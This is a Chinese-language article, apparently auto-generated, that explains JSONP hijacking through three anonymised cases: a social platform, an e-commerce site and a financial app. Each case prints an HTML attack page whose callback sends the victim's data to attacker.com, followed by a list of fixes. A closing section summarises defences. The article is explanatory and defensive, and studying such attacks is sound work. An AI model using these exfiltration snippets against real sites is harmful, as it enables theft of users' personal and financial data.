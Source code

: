 # JSONP劫持漏洞的案例分析

## 1. 概述

JSONP（JSON with Padding）是一种用于跨域数据请求的技术，它通过动态创建`<script>`标签来加载远程数据。由于JSONP依赖于回调函数，攻击者可以利用这一特性实施JSONP劫持攻击，窃取用户的敏感数据。本文将通过真实世界中的案例，深入分析JSONP劫持漏洞的原理、攻击手法及其危害。

## 2. 原理

JSONP劫持漏洞的核心在于攻击者能够诱使受害者的浏览器执行恶意脚本，从而窃取通过JSONP接口返回的敏感数据。具体步骤如下：

1. **诱骗用户访问恶意页面**：攻击者通过钓鱼邮件、恶意广告等方式诱骗用户访问包含恶意脚本的页面。
2. **动态创建`<script>`标签**：恶意页面中动态创建一个`<script>`标签，指向目标网站的JSONP接口，并指定一个回调函数。
3. **窃取数据**：当目标网站的JSONP接口返回数据时，数据会被传递给恶意页面中定义的回调函数，攻击者可以在回调函数中窃取这些数据。

## 3. 案例分析

### 3.1 案例一：某社交平台的JSONP劫持漏洞

#### 背景
某社交平台提供了一个JSONP接口，用于获取用户的个人信息，包括用户名、邮箱地址等敏感数据。该接口未对请求来源进行验证，导致存在JSONP劫持漏洞。

#### 攻击过程
1. **构造恶意页面**：攻击者创建了一个恶意页面，页面中包含以下代码：
   ```html
   <script>
   function stealData(data) {
       // 将窃取的数据发送到攻击者的服务器
       var img = new Image();
       img.src = "http://attacker.com/steal?data=" + encodeURIComponent(JSON.stringify(data));
   }
   </script>
   <script src="https://vulnerable-social-platform.com/userinfo?callback=stealData"></script>
   ```
2. **诱骗用户访问**：攻击者通过钓鱼邮件诱骗用户访问该恶意页面。
3. **窃取数据**：当用户访问恶意页面时，浏览器会加载并执行恶意脚本，向社交平台的JSONP接口发送请求。接口返回的用户数据会被传递给`stealData`函数，攻击者通过该函数将数据发送到自己的服务器。

#### 漏洞修复
社交平台修复了该漏洞，具体措施包括：
- **验证请求来源**：只允许来自信任域的请求访问JSONP接口。
- **使用CSRF令牌**：在JSONP请求中添加CSRF令牌，确保请求来自合法的用户会话。

### 3.2 案例二：某电商网站的JSONP劫持漏洞

#### 背景
某电商网站提供了一个JSONP接口，用于获取用户的订单信息，包括订单号、商品名称、价格等敏感数据。该接口未对回调函数进行验证，导致存在JSONP劫持漏洞。

#### 攻击过程
1. **构造恶意页面**：攻击者创建了一个恶意页面，页面中包含以下代码：
   ```html
   <script>
   function stealOrder(data) {
       // 将窃取的数据发送到攻击者的服务器
       var img = new Image();
       img.src = "http://attacker.com/steal?data=" + encodeURIComponent(JSON.stringify(data));
   }
   </script>
   <script src="https://vulnerable-ecommerce-site.com/orders?callback=stealOrder"></script>
   ```
2. **诱骗用户访问**：攻击者通过恶意广告诱骗用户访问该恶意页面。
3. **窃取数据**：当用户访问恶意页面时，浏览器会加载并执行恶意脚本，向电商网站的JSONP接口发送请求。接口返回的订单数据会被传递给`stealOrder`函数，攻击者通过该函数将数据发送到自己的服务器。

#### 漏洞修复
电商网站修复了该漏洞，具体措施包括：
- **限制回调函数名称**：只允许预定义的回调函数名称，防止攻击者指定恶意回调函数。
- **使用CORS替代JSONP**：改用CORS（跨域资源共享）技术，避免使用JSONP。

### 3.3 案例三：某金融应用的JSONP劫持漏洞

#### 背景
某金融应用提供了一个JSONP接口，用于获取用户的账户余额和交易记录。该接口未对请求进行身份验证，导致存在JSONP劫持漏洞。

#### 攻击过程
1. **构造恶意页面**：攻击者创建了一个恶意页面，页面中包含以下代码：
   ```html
   <script>
   function stealFinancialData(data) {
       // 将窃取的数据发送到攻击者的服务器
       var img = new Image();
       img.src = "http://attacker.com/steal?data=" + encodeURIComponent(JSON.stringify(data));
   }
   </script>
   <script src="https://vulnerable-financial-app.com/account?callback=stealFinancialData"></script>
   ```
2. **诱骗用户访问**：攻击者通过社交工程手段诱骗用户访问该恶意页面。
3. **窃取数据**：当用户访问恶意页面时，浏览器会加载并执行恶意脚本，向金融应用的JSONP接口发送请求。接口返回的账户数据会被传递给`stealFinancialData`函数，攻击者通过该函数将数据发送到自己的服务器。

#### 漏洞修复
金融应用修复了该漏洞，具体措施包括：
- **强制身份验证**：要求所有JSONP请求必须携带有效的身份验证令牌。
- **使用HTTPS**：确保所有JSONP请求通过HTTPS传输，防止数据被中间人攻击窃取。

## 4. 防御措施

通过以上案例分析，我们可以总结出以下防御JSONP劫持漏洞的措施：

1. **验证请求来源**：只允许来自信任域的请求访问JSONP接口。
2. **限制回调函数名称**：只允许预定义的回调函数名称，防止攻击者指定恶意回调函数。
3. **使用CSRF令牌**：在JSONP请求中添加CSRF令牌，确保请求来自合法的用户会话。
4. **强制身份验证**：要求所有JSONP请求必须携带有效的身份验证令牌。
5. **使用CORS替代JSONP**：改用CORS技术，避免使用JSONP。
6. **使用HTTPS**：确保所有JSONP请求通过HTTPS传输，防止数据被中间人攻击窃取。

## 5. 结论

JSONP劫持漏洞是一种严重的安全威胁，攻击者可以通过该漏洞窃取用户的敏感数据。通过分析真实世界中的案例，我们可以更好地理解该漏洞的原理和攻击手法，并采取有效的防御措施。开发者应避免使用JSONP，或在使用时严格实施安全措施，以保护用户的数据安全。

---

*文档生成时间: 2025-03-11 14:24:01*

